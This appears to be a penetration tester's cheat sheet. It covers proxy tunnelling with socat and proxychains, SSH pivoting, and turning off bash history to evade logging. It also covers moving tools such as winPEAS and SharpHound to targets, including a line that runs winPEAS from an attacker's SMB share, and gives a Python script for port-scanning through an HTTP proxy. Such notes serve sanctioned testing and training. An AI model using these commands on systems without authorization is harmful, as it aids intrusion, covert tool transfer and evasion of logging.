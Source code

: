 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  


 ## Easily mount a shared folder between host & VM in virtualbox: 
 `mkdir Shared_VMs`  
 `sudo mount -t vboxsf Shared_VMs Shared_VMs`  
           
 ## Leave a command running when the SSH session is disconnected with `nohup`:  
`nohup nmap -Pn -A -p- -oA results_nmap 192.168.210.10-20 &exit`   
   
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
*(Several techniques are from <https://notes.qazeer.io/general/file_transfer>)*    

## Fix network errors on Windows  
Flush the DNS cache : `ipconfig /flushdns`   
Reset the Winsock program (Windows API used to interact with the TCP/IP stack) : `netsh winsock reset`   

  
## Portscan behind a HTTP proxy (by @iansus):     
```
#!/usr/bin/python3
 
import socket
 
PROXY = 'proxy.client'
PROXYPORT = 8080
 
def portscan(domain, port):
 
    s = socket.socket()
    s.connect((PROXY, PROXYPORT))
    
    payload1 = 'CONNECT %(host)s:%(port)d\r\nHost: %(host)s:%(port)d\r\n\r\n' % {'host':domain, 'port':port}
    s.send(bytes(payload1, 'utf-8'))
    data = s.recv(1024)
    assert(b'HTTP/1.1 200' in data)
    
    s.settimeout(0.5)
    payload2 = 'GET / HTTP/1.1\r\nHost: %(host)s:%(port)d\r\n\r\n' % {'host':domain, 'port':port}
    
    s.send(bytes(payload2, 'utf-8'))
    s.recv(1024)
    
 
domain = 'appli.client.fr'
portstr = '7,9,13,21-23,25-26,37,53,79-81,88,106,110-111,113,119,135,139,143-144,179,199,389,427,443-445,465,513-515,543-544,548,554,587,631,646,873,990,993,995,1025-1029,1110,1433,1720,1723,1755,1900,2000-2001,2049,2121,2717,3000,3128,3306,3389,3986,4899,5000,5009,5051,5060,5101,5190,5357,5432,5631,5666,5800,5900,6000-6001,6646,7070,8000,8008-8009,8080-8081,8443,8888,9100,9999-10000,32768,49152-49157'
 
ports = []
for portdef in portstr.split(','):
    if not '-' in portdef:
        ports.append(int(portdef))
        
    else:
        start, end = map(int, portdef.split('-'))
        ports += range(start, end+1)
 
 
for port in ports:
    try:
        portscan(domain, port)
        print('Port %d is open on %s' % (port, domain))
        
    except Exception as e:
        print('Port %d is closed on %s (%s)' % (port, domain, str(e)))
        
```
